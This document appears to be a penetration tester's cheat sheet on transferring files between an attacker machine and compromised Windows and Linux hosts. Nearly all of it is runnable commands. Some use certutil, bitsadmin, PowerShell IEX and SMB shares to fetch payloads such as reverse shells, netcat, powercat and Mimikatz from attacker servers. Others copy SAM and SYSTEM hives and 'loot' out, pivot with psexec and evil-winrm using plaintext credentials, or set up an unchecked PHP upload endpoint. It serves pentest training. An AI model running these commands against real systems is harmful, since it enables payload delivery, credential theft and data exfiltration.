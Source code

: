 # Transferring Files

BEST RESOURCE: "https://github.com/eMVee-NL/MindMap/tree/main/File-Transfer"

Nothing is 100% bullet-proof. Have several options.

### Powershell Linux to Windows

```bash
(new-object System.Net.WebClient).DownloadFile('http://192.168.119.138:8000/chisel.exe','C:\Windows\Tasks\chisel.exe')
```

### SMB Linux to Windows

```bash
impacket-smbserver -smb2support Share .
cmd.exe /c //kali_ip/Share/shell443.exe
```

```bash
/usr/local/bin/smbserver.py -username df -password df share . -smb2support
net use \\kali_ip\share /u:df df
copy \\kali_ip\share\shell443.exe
```

```bash
impacket-smbserver -smb2support Share .
net use \\kali_ip\share
copy \\kali_ip\share\whoami.exe
```

### Windows http server Linux to Windows

```bash
python3 -m http.server 80
certutil -urlcache -split -f http://kali_ip/shell.exe C:\\Windows\temp\shell.exe
```

```bash
Invoke-WebRequest -Uri http://10.10.93.141:7781/winPEASx64.exe -OutFile wp.exe
```

#### Transfer Files with NetCat

On your computer:

```bash
nc -l -p 12345 > received_file
```

On the remote computer, Windows in this case:

```bash
Get-Content .\yourfile.txt -Raw | nc.exe <Your_IP_Address> 12345
```

#### Errors

```bash
Access is denied. In this case try Invoke-WebRequest for powershell
```

#### Host Simple FTP Server

```bash
python -m pyftpdlib -w
```

### Powercat

Host powercat.ps1 in a webserver on the attacker machine.

Execute..

```bash
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://kali-ip/powercat.ps1');powercat -l -p 4444 -i C:\Users\test\FiletoTransfer"
```

On kali..

```bash
wget http://windows-ip:4444/FileToTransfer
```

### SMB Shares Windows to Windows

```bash
In this situation we have logged onto computer A
sudo impacket-psexec Admin:'password123'@192.168.203.141 cmd.exe
C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.203.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.203.254

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.93.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :
   
 Via Computer A we pivot to Computer B (internal IP) with these creds
 proxychains evil-winrm -u celia.almeda -p 7k8XHk3dMtmpnC7 -i 10.10.93.142
```

#### Accessing $C Drive of Computer A

```bash
*Evil-WinRM* PS C:\windows.old\Windows\system32> net use * \\10.10.93.141\C$ /user:Admin password123
```

#### Copying over files

```bash
*Evil-WinRM* PS C:\windows.old\Windows\system32> xcopy C:\windows.old\Windows\system32\SYSTEM Z:\
*Evil-WinRM* PS C:\windows.old\Windows\system32> xcopy C:\windows.old\Windows\system32\SAM Z:\
```

### SMB Server Bi-directional

```bash
impacket-smbserver -smb2support Share .
smbserver.py -smb2support Share .
mkdir loot #transfering loot to this folder
net use * \\192.168.119.183\share
copy Z:\<file you want from kali>
copy C:\bank-account.zip Z:\loot #Transfer files to the loot folder on your kali machine
```

#### Authenticated

```bash
You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```

```bash
impacket-smbserver -username df -password df share . -smb2support
net use \\10.10.16.9\share /u:df df
copy \\10.10.16.9\share\evil.file
```

#### Host an Apache Web Server

```bash
sudo systemctl start apache2
cp file.txt /var/www/html/
sudo php -S 0.0.0.0:80
# You can access the files on port 80 of your machine/ip
```

### PHP Script Windows to Linux

```bash
cat upload.php
chmod +x upload.php
```

```bash
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

```bash
sudo mkdir /var/www/uploads
```

```bash
mv upload.php /var/www/uploads
```

```bash
service apache2 start
ps -ef | grep apache
```

Use a webbrowser on the victim to access the page and upload the desired file or use the below powershell to accomplish the same..

```bash
powershell -c "(New-Object System.Net.WebClient).UploadFile('http://10.10.134.254:9999/upload.php', '.\dc_20240822153055_BloodHound.zip')"
powershell (New-Object System.Net.WebClient).UploadFile('http://10.10.134.254:8888/upload.php', 'bloodhound.zip')
```

```bash
service apache2 stop
```

powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.45.178:90/upload.php', 'bloodhound.zip')

### TFTP

Uploading files with TFTP.

```bash
root@kali:~# mkdir /tftp
root@kali:~# atftpd --daemon --port 69 /tftp
root@kali:~# cp /usr/share/windows-binaries/nc.exe /tftp/
```

#### Dump

```bash
Invoke-WebRequest https://$myip/PowerView.ps1 -OutFile PowerView.ps1  # Download a file with PowerShell
IEX (New-Object Net.WebClient).DownloadString('https://$myip/Invoke-Mimikatz.ps1')   # Execute a file in memory using PowerShell
Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64  # Upload a file with PowerShell
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe  #  Download a file using Bitsadmin
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe  #  Download a file using Certutil
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh # Download a file using Wget
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh # Download a file using cURL
php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);' # Download a file using PHP
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip # Upload a file using SCP
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe #  Download a file using SCP
Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe" # Invoke-WebRequest using a Chrome User Agent
```